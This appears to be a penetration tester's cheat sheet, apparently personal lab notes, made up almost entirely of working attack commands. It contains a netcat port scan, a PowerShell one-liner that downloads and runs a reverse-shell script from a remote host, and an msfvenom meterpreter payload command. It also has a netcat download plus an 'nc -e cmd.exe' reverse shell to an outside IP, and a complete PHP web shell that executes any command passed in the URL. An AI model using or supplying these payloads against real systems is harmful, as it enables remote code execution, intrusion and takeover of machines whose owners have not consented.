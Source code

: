 ```
netcat -v -z -n -w 1 192.168.45.230 1-1023
```


# Reverse Shell

## Linux

``` upgrade shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Windows

Do Pth and execute powershell command to download and run reverse shell:
```
iex(new-object net.webclient).downloadstring('http://192.168.45.230:8000/shell.ps1');shell
```

Generate a exe payload using msfvenom:
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.45.179 LPORT=4444 -f exe -o meterpreter.exe
```

# NC


```
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
``
```
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.206 4446
```
## PHP
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
